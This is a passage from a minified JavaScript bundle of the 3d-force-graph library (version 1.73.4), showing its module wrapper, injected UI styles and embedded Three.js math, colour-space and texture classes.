**File Doc:** *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph !function(t,e){"object"==typeof exports&&"undefined"!=typeof module?module.exports=e():"function"==typeof define&&define.amd?define(e):(t="undefined"!=typeof globalThis?globalThis:t||self).ForceGraph3D=e()}(this,(function(){"use strict";function t(t,e){(null==e||e>t.length)&&(e=t.length);for(var n=0,i=Array(e);n<e;n++)i[n]=t[n];return i}function e(t,e,n){return(e=function(t){var e=function(t,e){if("object"!=typeof t||!t)return t;var n=t[Symbol.toPrimitive];if(void 0!==n){var i=n.call(t,e||"default");if("object"!=typeof i)return i;throw new TypeError("@@toPrimitive must return a primitive value.")}return("string"===e?String:Number)(t)}(t,"string");return"symbol"==typeof e?e:e+""}(e))in t?Object.defineProperty(t,e,{value:n,enumerable:!0,configurable:!0,writable:!0}):t[e]=n,t}function n(t,e){var n=Object.keys(t);if(Object.getOwnPropertySymbols){var i=Object.getOwnPropertySymbols(t);e&&(i=i.filter((function(e){return Object.getOwnPropertyDescriptor(t,e).enumerable}))),n.push.apply(n,i)}return n}function i(t){for(var i=1;i<arguments.length;i++){var r=null!=arguments[i]?arguments[i]:{};i%2?n(Object(r),!0).forEach((function(n){e(t,n,r[n])})):Object.getOwnPropertyDescriptors?Object.defineProperties(t,Object.getOwnPropertyDescriptors(r)):n(Object(r)).forEach((function(e){Object.defineProperty(t,e,Object.getOwnPropertyDescriptor(r,e))}))}return t}function r(e){return function(e){if(Array.isArray(e))return t(e)}(e)||function(t){if("undefined"!=typeof Symbol&&null!=t[Symbol.iterator]||null!=t["@@iterator"])return Array.from(t)}(e)||function(e,n){if(e){if("string"==typeof e)return t(e,n);var i={}.toString.call(e).slice(8,-1);return"Object"===i&&e.constructor&&(i=e.constructor.name),"Map"===i||"Set"===i?Array.from(e):"Arguments"===i||/^(?:Ui|I)nt(?:8|16|32)(?:Clamped)?Array$/.test(i)?t(e,n):void 0}}(e)||function(){throw new TypeError("Invalid attempt to spread non-iterable instance.\nIn order to be iterable, non-array objects must have a [Symbol.iterator]() method.")}()}!function(t,e){void 0===e&&(e={});var n=e.insertAt;if("undefined"!=typeof document){var i=document.head||document.getElementsByTagName("head")[0],r=document.createElement("style");r.type="text/css","top"===n&&i.firstChild?i.insertBefore(r,i.firstChild):i.appendChild(r),r.styleSheet?r.styleSheet.cssText=t:r.appendChild(document.createTextNode(t))}}(".graph-info-msg {\n  top: 50%;\n  width: 100%;\n  text-align: center;\n  color: lavender;\n  opacity: 0.7;\n  font-size: 22px;\n  position: absolute;\n  font-family: Sans-serif;\n}\n\n.scene-container .clickable {\n  cursor: pointer;\n}\n\n.scene-container .grabbable {\n  cursor: move;\n  cursor: grab;\n  cursor: -moz-grab;\n  cursor: -webkit-grab;\n}\n\n.scene-container .grabbable:active {\n  cursor: grabbing;\n  cursor: -moz-grabbing;\n  cursor: -webkit-grabbing;\n}");const a="168",o={LEFT:0,MIDDLE:1,RIGHT:2,ROTATE:0,DOLLY:1,PAN:2},s=0,l=1,c=2,h=3,u=0,d=1,p=2,f=100,m=101,g=102,_=200,v=201,y=202,x=203,b=204,M=205,S=206,E=207,w=208,T=209,A=210,C=211,R=212,P=213,L=214,D=301,I=302,O=306,U=1e3,N=1001,F=1002,k=1003,z=1004,B=1005,H=1006,V=1007,G=1008,j=1009,W=1010,X=1011,q=1012,Y=1013,K=1014,Z=1015,$=1016,J=1017,Q=1018,tt=1020,et=35902,nt=1023,it=1026,rt=1027,at=1029,ot=1031,st=1033,lt=33776,ct=33777,ht=33778,ut=33779,dt=35840,pt=35841,ft=35842,mt=35843,gt=36196,_t=37492,vt=37496,yt=37808,xt=37809,bt=37810,Mt=37811,St=37812,Et=37813,wt=37814,Tt=37815,At=37816,Ct=37817,Rt=37818,Pt=37819,Lt=37820,Dt=37821,It=36492,Ot=36494,Ut=36495,Nt=36284,Ft=36285,kt=36286,zt="",Bt="srgb",Ht="srgb-linear",Vt="display-p3",Gt="display-p3-linear",jt="linear",Wt="srgb",Xt="rec709",qt="p3",Yt=7680,Kt=512,Zt=513,$t=514,Jt=515,Qt=516,te=517,ee=518,ne=519,ie="300 es",re=2e3,ae=2001;class oe{addEventListener(t,e){void 0===this._listeners&&(this._listeners={});const n=this._listeners;void 0===n[t]&&(n[t]=[]),-1===n[t].indexOf(e)&&n[t].push(e)}hasEventListener(t,e){if(void 0===this._listeners)return!1;const n=this._listeners;return void 0!==n[t]&&-1!==n[t].indexOf(e)}removeEventListener(t,e){if(void 0===this._listeners)return;const n=this._listeners[t];if(void 0!==n){const t=n.indexOf(e);-1!==t&&n.splice(t,1)}}dispatchEvent(t){if(void 0===this._listeners)return;const e=this._listeners[t.type];if(void 0!==e){t.target=this;const n=e.slice(0);for(let e=0,i=n.length;e<i;e++)n[e].call(this,t);t.target=null}}}const se=["00","01","02","03","04","05","06","07","08","09","0a","0b","0c","0d","0e","0f","10","11","12","13","14","15","16","17","18","19","1a","1b","1c","1d","1e","1f","20","21","22","23","24","25","26","27","28","29","2a","2b","2c","2d","2e","2f","30","31","32","33","34","35","36","37","38","39","3a","3b","3c","3d","3e","3f","40","41","42","43","44","45","46","47","48","49","4a","4b","4c","4d","4e","4f","50","51","52","53","54","55","56","57","58","59","5a","5b","5c","5d","5e","5f","60","61","62","63","64","65","66","67","68","69","6a","6b","6c","6d","6e","6f","70","71","72","73","74","75","76","77","78","79","7a","7b","7c","7d","7e","7f","80","81","82","83","84","85","86","87","88","89","8a","8b","8c","8d","8e","8f","90","91","92","93","94","95","96","97","98","99","9a","9b","9c","9d","9e","9f","a0","a1","a2","a3","a4","a5","a6","a7","a8","a9","aa","ab","ac","ad","ae","af","b0","b1","b2","b3","b4","b5","b6","b7","b8","b9","ba","bb","bc","bd","be","bf","c0","c1","c2","c3","c4","c5","c6","c7","c8","c9","ca","cb","cc","cd","ce","cf","d0","d1","d2","d3","d4","d5","d6","d7","d8","d9","da","db","dc","dd","de","df","e0","e1","e2","e3","e4","e5","e6","e7","e8","e9","ea","eb","ec","ed","ee","ef","f0","f1","f2","f3","f4","f5","f6","f7","f8","f9","fa","fb","fc","fd","fe","ff"];let le=1234567;const ce=Math.PI/180,he=180/Math.PI;function ue(){const t=4294967295*Math.random()|0,e=4294967295*Math.random()|0,n=4294967295*Math.random()|0,i=4294967295*Math.random()|0;return(se[255&t]+se[t>>8&255]+se[t>>16&255]+se[t>>24&255]+"-"+se[255&e]+se[e>>8&255]+"-"+se[e>>16&15|64]+se[e>>24&255]+"-"+se[63&n|128]+se[n>>8&255]+"-"+se[n>>16&255]+se[n>>24&255]+se[255&i]+se[i>>8&255]+se[i>>16&255]+se[i>>24&255]).toLowerCase()}function de(t,e,n){return Math.max(e,Math.min(n,t))}function pe(t,e){return(t%e+e)%e}function fe(t,e,n){return(1-n)*t+n*e}function me(t,e){switch(e.constructor){case Float32Array:return t;case Uint32Array:return t/4294967295;case Uint16Array:return t/65535;case Uint8Array:return t/255;case Int32Array:return Math.max(t/2147483647,-1);case Int16Array:return Math.max(t/32767,-1);case Int8Array:return Math.max(t/127,-1);default:throw new Error("Invalid component type.")}}function ge(t,e){switch(e.constructor){case Float32Array:return t;case Uint32Array:return Math.round(4294967295*t);case Uint16Array:return Math.round(65535*t);case Uint8Array:return Math.round(255*t);case Int32Array:return Math.round(2147483647*t);case Int16Array:return Math.round(32767*t);case Int8Array:return Math.round(127*t);default:throw new Error("Invalid component type.")}}const _e={DEG2RAD:ce,RAD2DEG:he,generateUUID:ue,clamp:de,euclideanModulo:pe,mapLinear:function(t,e,n,i,r){return i+(t-e)*(r-i)/(n-e)},inverseLerp:function(t,e,n){return t!==e?(n-t)/(e-t):0},lerp:fe,damp:function(t,e,n,i){return fe(t,e,1-Math.exp(-n*i))},pingpong:function(t,e=1){return e-Math.abs(pe(t,2*e)-e)},smoothstep:function(t,e,n){return t<=e?0:t>=n?1:(t=(t-e)/(n-e))*t*(3-2*t)},smootherstep:function(t,e,n){return t<=e?0:t>=n?1:(t=(t-e)/(n-e))*t*t*(t*(6*t-15)+10)},randInt:function(t,e){return t+Math.floor(Math.random()*(e-t+1))},randFloat:function(t,e){return t+Math.random()*(e-t)},randFloatSpread:function(t){return t*(.5-Math.random())},seededRandom:function(t){void 0!==t&&(le=t);let e=le+=1831565813;return e=Math.imul(e^e>>>15,1|e),e^=e+Math.imul(e^e>>>7,61|e),((e^e>>>14)>>>0)/4294967296},degToRad:function(t){return t*ce},radToDeg:function(t){return t*he},isPowerOfTwo:function(t){return!(t&t-1)&&0!==t},ceilPowerOfTwo:function(t){return Math.pow(2,Math.ceil(Math.log(t)/Math.LN2))},floorPowerOfTwo:function(t){return Math.pow(2,Math.floor(Math.log(t)/Math.LN2))},setQuaternionFromProperEuler:function(t,e,n,i,r){const a=Math.cos,o=Math.sin,s=a(n/2),l=o(n/2),c=a((e+i)/2),h=o((e+i)/2),u=a((e-i)/2),d=o((e-i)/2),p=a((i-e)/2),f=o((i-e)/2);switch(r){case"XYX":t.set(s*h,l*u,l*d,s*c);break;case"YZY":t.set(l*d,s*h,l*u,s*c);break;case"ZXZ":t.set(l*u,l*d,s*h,s*c);break;case"XZX":t.set(s*h,l*f,l*p,s*c);break;case"YXY":t.set(l*p,s*h,l*f,s*c);break;case"ZYZ":t.set(l*f,l*p,s*h,s*c);break;default:console.warn("THREE.MathUtils: .setQuaternionFromProperEuler() encountered an unknown order: "+r)}},normalize:ge,denormalize:me};class ve{constructor(t=0,e=0){ve.prototype.isVector2=!0,this.x=t,this.y=e}get width(){return this.x}set width(t){this.x=t}get height(){return this.y}set height(t){this.y=t}set(t,e){return this.x=t,this.y=e,this}setScalar(t){return this.x=t,this.y=t,this}setX(t){return this.x=t,this}setY(t){return this.y=t,this}setComponent(t,e){switch(t){case 0:this.x=e;break;case 1:this.y=e;break;default:throw new Error("index is out of range: "+t)}return this}getComponent(t){switch(t){case 0:return this.x;case 1:return this.y;default:throw new Error("index is out of range: "+t)}}clone(){return new this.constructor(this.x,this.y)}copy(t){return this.x=t.x,this.y=t.y,this}add(t){return this.x+=t.x,this.y+=t.y,this}addScalar(t){return this.x+=t,this.y+=t,this}addVectors(t,e){return this.x=t.x+e.x,this.y=t.y+e.y,this}addScaledVector(t,e){return this.x+=t.x*e,this.y+=t.y*e,this}sub(t){return this.x-=t.x,this.y-=t.y,this}subScalar(t){return this.x-=t,this.y-=t,this}subVectors(t,e){return this.x=t.x-e.x,this.y=t.y-e.y,this}multiply(t){return this.x*=t.x,this.y*=t.y,this}multiplyScalar(t){return this.x*=t,this.y*=t,this}divide(t){return this.x/=t.x,this.y/=t.y,this}divideScalar(t){return this.multiplyScalar(1/t)}applyMatrix3(t){const e=this.x,n=this.y,i=t.elements;return this.x=i[0]*e+i[3]*n+i[6],this.y=i[1]*e+i[4]*n+i[7],this}min(t){return this.x=Math.min(this.x,t.x),this.y=Math.min(this.y,t.y),this}max(t){return this.x=Math.max(this.x,t.x),this.y=Math.max(this.y,t.y),this}clamp(t,e){return this.x=Math.max(t.x,Math.min(e.x,this.x)),this.y=Math.max(t.y,Math.min(e.y,this.y)),this}clampScalar(t,e){return this.x=Math.max(t,Math.min(e,this.x)),this.y=Math.max(t,Math.min(e,this.y)),this}clampLength(t,e){const n=this.length();return this.divideScalar(n||1).multiplyScalar(Math.max(t,Math.min(e,n)))}floor(){return this.x=Math.floor(this.x),this.y=Math.floor(this.y),this}ceil(){return this.x=Math.ceil(this.x),this.y=Math.ceil(this.y),this}round(){return this.x=Math.round(this.x),this.y=Math.round(this.y),this}roundToZero(){return this.x=Math.trunc(this.x),this.y=Math.trunc(this.y),this}negate(){return this.x=-this.x,this.y=-this.y,this}dot(t){return this.x*t.x+this.y*t.y}cross(t){return this.x*t.y-this.y*t.x}lengthSq(){return this.x*this.x+this.y*this.y}length(){return Math.sqrt(this.x*this.x+this.y*this.y)}manhattanLength(){return Math.abs(this.x)+Math.abs(this.y)}normalize(){return this.divideScalar(this.length()||1)}angle(){return Math.atan2(-this.y,-this.x)+Math.PI}angleTo(t){const e=Math.sqrt(this.lengthSq()*t.lengthSq());if(0===e)return Math.PI/2;const n=this.dot(t)/e;return Math.acos(de(n,-1,1))}distanceTo(t){return Math.sqrt(this.distanceToSquared(t))}distanceToSquared(t){const e=this.x-t.x,n=this.y-t.y;return e*e+n*n}manhattanDistanceTo(t){return Math.abs(this.x-t.x)+Math.abs(this.y-t.y)}setLength(t){return this.normalize().multiplyScalar(t)}lerp(t,e){return this.x+=(t.x-this.x)*e,this.y+=(t.y-this.y)*e,this}lerpVectors(t,e,n){return this.x=t.x+(e.x-t.x)*n,this.y=t.y+(e.y-t.y)*n,this}equals(t){return t.x===this.x&&t.y===this.y}fromArray(t,e=0){return this.x=t[e],this.y=t[e+1],this}toArray(t=[],e=0){return t[e]=this.x,t[e+1]=this.y,t}fromBufferAttribute(t,e){return this.x=t.getX(e),this.y=t.getY(e),this}rotateAround(t,e){const n=Math.cos(e),i=Math.sin(e),r=this.x-t.x,a=this.y-t.y;return this.x=r*n-a*i+t.x,this.y=r*i+a*n+t.y,this}random(){return this.x=Math.random(),this.y=Math.random(),this}*[Symbol.iterator](){yield this.x,yield this.y}}class ye{constructor(t,e,n,i,r,a,o,s,l){ye.prototype.isMatrix3=!0,this.elements=[1,0,0,0,1,0,0,0,1],void 0!==t&&this.set(t,e,n,i,r,a,o,s,l)}set(t,e,n,i,r,a,o,s,l){const c=this.elements;return c[0]=t,c[1]=i,c[2]=o,c[3]=e,c[4]=r,c[5]=s,c[6]=n,c[7]=a,c[8]=l,this}identity(){return this.set(1,0,0,0,1,0,0,0,1),this}copy(t){const e=this.elements,n=t.elements;return e[0]=n[0],e[1]=n[1],e[2]=n[2],e[3]=n[3],e[4]=n[4],e[5]=n[5],e[6]=n[6],e[7]=n[7],e[8]=n[8],this}extractBasis(t,e,n){return t.setFromMatrix3Column(this,0),e.setFromMatrix3Column(this,1),n.setFromMatrix3Column(this,2),this}setFromMatrix4(t){const e=t.elements;return this.set(e[0],e[4],e[8],e[1],e[5],e[9],e[2],e[6],e[10]),this}multiply(t){return this.multiplyMatrices(this,t)}premultiply(t){return this.multiplyMatrices(t,this)}multiplyMatrices(t,e){const n=t.elements,i=e.elements,r=this.elements,a=n[0],o=n[3],s=n[6],l=n[1],c=n[4],h=n[7],u=n[2],d=n[5],p=n[8],f=i[0],m=i[3],g=i[6],_=i[1],v=i[4],y=i[7],x=i[2],b=i[5],M=i[8];return r[0]=a*f+o*_+s*x,r[3]=a*m+o*v+s*b,r[6]=a*g+o*y+s*M,r[1]=l*f+c*_+h*x,r[4]=l*m+c*v+h*b,r[7]=l*g+c*y+h*M,r[2]=u*f+d*_+p*x,r[5]=u*m+d*v+p*b,r[8]=u*g+d*y+p*M,this}multiplyScalar(t){const e=this.elements;return e[0]*=t,e[3]*=t,e[6]*=t,e[1]*=t,e[4]*=t,e[7]*=t,e[2]*=t,e[5]*=t,e[8]*=t,this}determinant(){const t=this.elements,e=t[0],n=t[1],i=t[2],r=t[3],a=t[4],o=t[5],s=t[6],l=t[7],c=t[8];return e*a*c-e*o*l-n*r*c+n*o*s+i*r*l-i*a*s}invert(){const t=this.elements,e=t[0],n=t[1],i=t[2],r=t[3],a=t[4],o=t[5],s=t[6],l=t[7],c=t[8],h=c*a-o*l,u=o*s-c*r,d=l*r-a*s,p=e*h+n*u+i*d;if(0===p)return this.set(0,0,0,0,0,0,0,0,0);const f=1/p;return t[0]=h*f,t[1]=(i*l-c*n)*f,t[2]=(o*n-i*a)*f,t[3]=u*f,t[4]=(c*e-i*s)*f,t[5]=(i*r-o*e)*f,t[6]=d*f,t[7]=(n*s-l*e)*f,t[8]=(a*e-n*r)*f,this}transpose(){let t;const e=this.elements;return t=e[1],e[1]=e[3],e[3]=t,t=e[2],e[2]=e[6],e[6]=t,t=e[5],e[5]=e[7],e[7]=t,this}getNormalMatrix(t){return this.setFromMatrix4(t).invert().transpose()}transposeIntoArray(t){const e=this.elements;return t[0]=e[0],t[1]=e[3],t[2]=e[6],t[3]=e[1],t[4]=e[4],t[5]=e[7],t[6]=e[2],t[7]=e[5],t[8]=e[8],this}setUvTransform(t,e,n,i,r,a,o){const s=Math.cos(r),l=Math.sin(r);return this.set(n*s,n*l,-n*(s*a+l*o)+a+t,-i*l,i*s,-i*(-l*a+s*o)+o+e,0,0,1),this}scale(t,e){return this.premultiply(xe.makeScale(t,e)),this}rotate(t){return this.premultiply(xe.makeRotation(-t)),this}translate(t,e){return this.premultiply(xe.makeTranslation(t,e)),this}makeTranslation(t,e){return t.isVector2?this.set(1,0,t.x,0,1,t.y,0,0,1):this.set(1,0,t,0,1,e,0,0,1),this}makeRotation(t){const e=Math.cos(t),n=Math.sin(t);return this.set(e,-n,0,n,e,0,0,0,1),this}makeScale(t,e){return this.set(t,0,0,0,e,0,0,0,1),this}equals(t){const e=this.elements,n=t.elements;for(let t=0;t<9;t++)if(e[t]!==n[t])return!1;return!0}fromArray(t,e=0){for(let n=0;n<9;n++)this.elements[n]=t[n+e];return this}toArray(t=[],e=0){const n=this.elements;return t[e]=n[0],t[e+1]=n[1],t[e+2]=n[2],t[e+3]=n[3],t[e+4]=n[4],t[e+5]=n[5],t[e+6]=n[6],t[e+7]=n[7],t[e+8]=n[8],t}clone(){return(new this.constructor).fromArray(this.elements)}}const xe=new ye;function be(t){for(let e=t.length-1;e>=0;--e)if(t[e]>=65535)return!0;return!1}function Me(t){return document.createElementNS("http://www.w3.org/1999/xhtml",t)}function Se(){const t=Me("canvas");return t.style.display="block",t}const Ee={};function we(t){t in Ee||(Ee[t]=!0,console.warn(t))}const Te=(new ye).set(.8224621,.177538,0,.0331941,.9668058,0,.0170827,.0723974,.9105199),Ae=(new ye).set(1.2249401,-.2249404,0,-.0420569,1.0420571,0,-.0196376,-.0786361,1.0982735),Ce={[Ht]:{transfer:jt,primaries:Xt,luminanceCoefficients:[.2126,.7152,.0722],toReference:t=>t,fromReference:t=>t},[Bt]:{transfer:Wt,primaries:Xt,luminanceCoefficients:[.2126,.7152,.0722],toReference:t=>t.convertSRGBToLinear(),fromReference:t=>t.convertLinearToSRGB()},[Gt]:{transfer:jt,primaries:qt,luminanceCoefficients:[.2289,.6917,.0793],toReference:t=>t.applyMatrix3(Ae),fromReference:t=>t.applyMatrix3(Te)},[Vt]:{transfer:Wt,primaries:qt,luminanceCoefficients:[.2289,.6917,.0793],toReference:t=>t.convertSRGBToLinear().applyMatrix3(Ae),fromReference:t=>t.applyMatrix3(Te).convertLinearToSRGB()}},Re=new Set([Ht,Gt]),Pe={enabled:!0,_workingColorSpace:Ht,get workingColorSpace(){return this._workingColorSpace},set workingColorSpace(t){if(!Re.has(t))throw new Error(`Unsupported working color space, "${t}".`);this._workingColorSpace=t},convert:function(t,e,n){if(!1===this.enabled||e===n||!e||!n)return t;const i=Ce[e].toReference;return(0,Ce[n].fromReference)(i(t))},fromWorkingColorSpace:function(t,e){return this.convert(t,this._workingColorSpace,e)},toWorkingColorSpace:function(t,e){return this.convert(t,e,this._workingColorSpace)},getPrimaries:function(t){return Ce[t].primaries},getTransfer:function(t){return t===zt?jt:Ce[t].transfer},getLuminanceCoefficients:function(t,e=this._workingColorSpace){return t.fromArray(Ce[e].luminanceCoefficients)}};function Le(t){return t<.04045?.0773993808*t:Math.pow(.9478672986*t+.0521327014,2.4)}function De(t){return t<.0031308?12.92*t:1.055*Math.pow(t,.41666)-.055}let Ie;class Oe{static getDataURL(t){if(/^data:/i.test(t.src))return t.src;if("undefined"==typeof HTMLCanvasElement)return t.src;let e;if(t instanceof HTMLCanvasElement)e=t;else{void 0===Ie&&(Ie=Me("canvas")),Ie.width=t.width,Ie.height=t.height;const n=Ie.getContext("2d");t instanceof ImageData?n.putImageData(t,0,0):n.drawImage(t,0,0,t.width,t.height),e=Ie}return e.width>2048||e.height>2048?(console.warn("THREE.ImageUtils.getDataURL: Image converted to jpg for performance reasons",t),e.toDataURL("image/jpeg",.6)):e.toDataURL("image/png")}static sRGBToLinear(t){if("undefined"!=typeof HTMLImageElement&&t instanceof HTMLImageElement||"undefined"!=typeof HTMLCanvasElement&&t instanceof HTMLCanvasElement||"undefined"!=typeof ImageBitmap&&t instanceof ImageBitmap){const e=Me("canvas");e.width=t.width,e.height=t.height;const n=e.getContext("2d");n.drawImage(t,0,0,t.width,t.height);const i=n.getImageData(0,0,t.width,t.height),r=i.data;for(let t=0;t<r.length;t++)r[t]=255*Le(r[t]/255);return n.putImageData(i,0,0),e}if(t.data){const e=t.data.slice(0);for(let t=0;t<e.length;t++)e instanceof Uint8Array||e instanceof Uint8ClampedArray?e[t]=Math.floor(255*Le(e[t]/255)):e[t]=Le(e[t]);return{data:e,width:t.width,height:t.height}}return console.warn("THREE.ImageUtils.sRGBToLinear(): Unsupported image type. No color space conversion applied."),t}}let Ue=0;class Ne{constructor(t=null){this.isSource=!0,Object.defineProperty(this,"id",{value:Ue++}),this.uuid=ue(),this.data=t,this.dataReady=!0,this.version=0}set needsUpdate(t){!0===t&&this.version++}toJSON(t){const e=void 0===t||"string"==typeof t;if(!e&&void 0!==t.images[this.uuid])return t.images[this.uuid];const n={uuid:this.uuid,url:""},i=this.data;if(null!==i){let t;if(Array.isArray(i)){t=[];for(let e=0,n=i.length;e<n;e++)i[e].isDataTexture?t.push(Fe(i[e].image)):t.push(Fe(i[e]))}else t=Fe(i);n.url=t}return e||(t.images[this.uuid]=n),n}}function Fe(t){return"undefined"!=typeof HTMLImageElement&&t instanceof HTMLImageElement||"undefined"!=typeof HTMLCanvasElement&&t instanceof HTMLCanvasElement||"undefined"!=typeof ImageBitmap&&t instanceof ImageBitmap?Oe.getDataURL(t):t.data?{data:Array.from(t.data),width:t.width,height:t.height,type:t.data.constructor.name}:(console.warn("THREE.Texture: Unable to serialize Texture."),{})}let ke=0;class ze extends oe{constructor(t=ze.DEFAULT_IMAGE,e=ze.DEFAULT_MAPPING,n=1001,i=1001,r=1006,a=1008,o=1023,s=1009,l=ze.DEFAULT_ANISOTROPY,c=""){super(),this.isTexture=!0,Object.defineProperty(this,"id",{value:ke++}),this.uuid=ue(),this.name="",this.source=new Ne(t),this.mipmaps=[],this.mapping=e,this.channel=0,this.wrapS=n,this.wrapT=i,this.magFilter=r,this.minFilter=a,this.anisotropy=l,this.format=o,this.internalFormat=null,this.type=s,this.offset=new ve(0,0),this.repeat=new ve(1,1),this.center=new ve(0,0),this.rotation=0,this.matrixAutoUpdate=!0,this.matrix=new ye,this.generateMipmaps=!0,this.premultiplyAlpha=!1,this.flipY=!0,this.unpackAlignment=4,this.colorSpace=c,this.userData={},this.version=0,this.onUpdate=null,this.isRenderTargetTexture=!1,this.pmremVersion=0}get image(){return this.source.data}set image(t=null){this.source.data=t}updateMatrix(){this.matrix.setUvTransform(this.offset.x,this.offset.y,this.repeat.x,this.repeat.y,this.rotation,this.center.x,this.center.y)}clone(){return(new this.constructor).copy(this)}copy(t){return this.name=t.name,this.source=t.source,this.mipmaps=t.mipmaps.slice(0),this.mapping=t.mapping,this.channel=t.channel,this.wrapS=t.wrapS,this.wrapT=t.wrapT,this.magFilter=t.magFilter,this.minFilter=t.minFilter,this.anisotropy=t.anisotropy,this.format=t.format,this.internalFormat=t.internalFormat,this.type=t.type,this.offset.copy(t.offset),this.repeat.copy(t.repeat),this.center.copy(t.center),this.rotation=t.rotation,this.matrixAutoUpdate=t.matrixAutoUpdate,this.matrix.copy(t.matrix),this.generateMipmaps=t.generateMipmaps,this.premultiplyAlpha=t.premultiplyAlpha,this.flipY=t.flipY,this.unpackAlignment=t.unpackAlignment,this.colorSpace=t.colorSpace,this.userData=JSON.parse(JSON.stringify(t.userData)),this.needsUpdate=!0,this}toJSON(t){const e=void 0===t||"string"==typeof t;if(!e&&void 0!==t.textures[this.uuid])return t.textures[this.uuid];const n={metadata:{version:4.6,type:"Texture",generator:"Texture.toJSON"},uuid:this.uuid,name:this.name,image:this.source.toJSON(t).uuid,mapping:this.mapping,channel:this.channel,repeat:[this.repeat.x,this.repeat.y],offset:[this.offset.x,this.offset.y],center:[this.center.x,this.center.y],rotation:this.rotation,wrap:[this.wrapS,this.wrapT],format:this.format,internalFormat:this.internalFormat,type:this.type,colorSpace:this.colorSpace,minFilter:this.minFilter,magFilter:this.magFilter,anisotropy:this.anisotropy,flipY:this.flipY,generateMipmaps:this.generateMipmaps,premultiplyAlpha:this.premultiplyAlpha,unpackAlignment:this.unpackAlignment};return Object.keys(this.userData).length>0&&(n.userData=this.userData),e||(t.textures[this.uuid]=n),n}dispose(){this.dispatchEvent({type:"dispose"})}transformUv(t){if(300!==this.mapping)return t;if(t.applyMatrix3(this.matrix),t.x<0||t.x>1)switch(this.wrapS){case U:t.x=t.x-Math.floor(t.x);break;case N:t.x=t.x<0?0:1;break;case F:1===Math.abs(Math.floor(t.x)%2)?t.x=Math.ceil(t.x)-t.x:t.x=t.x-Math.floor(t.x)}if(t.y<0||t.y>1)switch(this.wrapT){case U:t.y=t.y-Math.floor(t.y);break;case N:t.y=t.y<0?0:1;break;case F:1===Math.abs(Math.floor(t.y)%2)?t.y=Math.ceil(t.y)-t.y:t.y=t.y-Math.floor(t.y)}return this.flipY&&(t.y=1-t.y),t}set needsUpdate(t){!0===t&&(this.version++,this.source.needsUpdate=!0)}set needsPMREMUpdate(t){!0===t&&this.pmremVersion++}}ze.DEFAULT_IMAGE=null,ze.DEFAULT_MAPPING=300,ze.DEFAULT_ANISOTROPY=1;class Be{constructor(t=0,e=0,n=0,i=1){Be.prototype.isVector4=!0,this.x=t,this.y=e,this.z=n,this.w=i}get width(){return this.z}set width(t){this.z=t}get height(){return this.w}set height(t){this.w=t}set(t,e,n,i){return this.x=t,this.y=e,this.z=n,this.w=i,this}setScalar(t){return this.x=t,this.y=t,this.z=t,this.w=t,this}setX(t){return this.x=t,this}setY(t){return this.y=t,this}setZ(t){return this.z=t,this}setW(t){return this.w=t,this}setComponent(t,e){switch(t){case 0:this.x=e;break;case 1:this.y=e;break;case 2:this.z=e;break;case 3:this.w=e;break;default:throw new Error("index is out of range: "+t)}return this}getComponent(t){switch(t){case 0:return this.x;case 1:return this.y;case 2:return this.z;case 3:return this.w;default:throw new Error("index is out of range: "+t)}}clone(){return new this.constructor(this.x,this.y,this.z,this.w)}copy(t){return this.x=t.x,this.y=t.y,this.z=t.z,this.w=void 0!==t.w?t.w:1,this}add(t){return this.x+=t.x,this.y+=t.y,this.z+=t.z,this.w+=t.w,this}addScalar(t){return this.x+=t,this.y+=t,this.z+=t,this.w+=t,this}addVectors(t,e){return this.x=t.x+e.x,this.y=t.y+e.y,this.z=t.z+e.z,this.w=t.w+e.w,this}addScaledVector(t,e){return this.x+=t.x*e,this.y+=t.y*e,this.z+=t.z*e,this.w+=t.w*e,this}sub(t){return this.x-=t.x,this.y-=t.y,this.z-=t.z,this.w-=t.w,this}subScalar(t){return this.x-=t,this.y-=t,this.z-=t,this.w-=t,this}subVectors(t,e){return this.x=t.x-e.x,this.y=t.y-e.y,this.z=t.z-e.z,this.w=t.w-e.w,this}multiply(t){return this.x*=t.x,this.y*=t.y,this.z*=t.z,this.w*=t.w,this}multiplyScalar(t){return this.x*=t,this.y*=t,this.z*=t,this.w*=t,this}applyMatrix4(t){const e=this.x,n=this.y,i=this.z,r=this.w,a=t.elements;return this.x=a[0]*e+a[4]*n+a[8]*i+a[12]*r,this.y=a[1]*e+a[5]*n+a[9]*i+a[13]*r,this.z=a[2]*e+a[6]*n+a[10]*i+a[14]*r,this.w=a[3]*e+a[7]*n+a[11]*i+a[15]*r,this}divideScalar(t){return this.multiplyScalar(1/t)}setAxisAngleFromQuaternion(t){this.w=2*Math.acos(t.w);const e=Math.sqrt(1-t.w*t.w);return e<1e-4?(this.x=1,this.y=0,this.z=0):(this.x=t.x/e,this.y=t.y/e,this.z=t.z/e),this}setAxisAngleFromRotationMatrix(t){let e,n,i,r;const a=.01,o=.1,s=t.elements,l=s[0],c=s[4],h=s[8],u=s[1],d=s[5],p=s[9],f=s[2],m=s[6],g=s[10];if(Math.abs(c-u)<a&&Math.abs(h-f)<a&&Math.abs(p-m)<a){if(Math.abs(c+u)<o&&Math.abs(h+f)<o&&Math.abs(p+m)<o&&Math.abs(l+d+g-3)<o)return this.set(1,0,0,0),this;e=Math.PI;const t=(l+1)/2,s=(d+1)/2,_=(g+1)/2,v=(c+u)/4,y=(h+f)/4,x=(p+m)/4;return t>s&&t>_?t<a?(n=0,i=.707106781,r=.707106781):(n=Math.sqrt(t),i=v/n,r=y/n):s>_?s<a?(n=.707106781,i=0,r=.707106781):(i=Math.sqrt(s),n=v/i,r=x/i):_<a?(n=.707106781,i=.707106781,r=0):(r=Math.sqrt(_),n=y/r,i=x/r),this.set(n,i,r,e),this}let _=Math.sqrt((m-p)*(m-p)+(h-f)*(h-f)+(u-c)*(u-c));return Math.abs(_)<.001&&(_=1),this.x=(m-p)/_,this.y=(h-f)/_,this.z=(u-c)/_,this.w=Math.acos((l+d+g-1)/2),this}setFromMatrixPosition(t){const e=t.elements;return this.x=e[12],this.y=e[13],this.z=e[14],this.w=e[15],this}min(t){return this.x=Math.min(this.x,t.x),this.y=Math.min(this.y,t.y),this.z=Math.min(this.z,t.z),this.w=Math.min(this.w,t.w),this}max(t){return this.x=Math.max(this.x,t.x),this.y=Math.max(this.y,t.y),this.z=Math.max(this.z,t.z),this.w=Math.max(this.w,t.w),this}clamp(t,e){return this.x=Math.max(t.x,Math.min(e.x,this.x)),this.y=Math.max(t.y,Math.min(e.y,this.y)),this.z=Math.max(t.z,Math.min(e.z,this.z)),this.w=Math.max(t.w,Math.min(e.w,this.w)),this}clampScalar(t,e){return 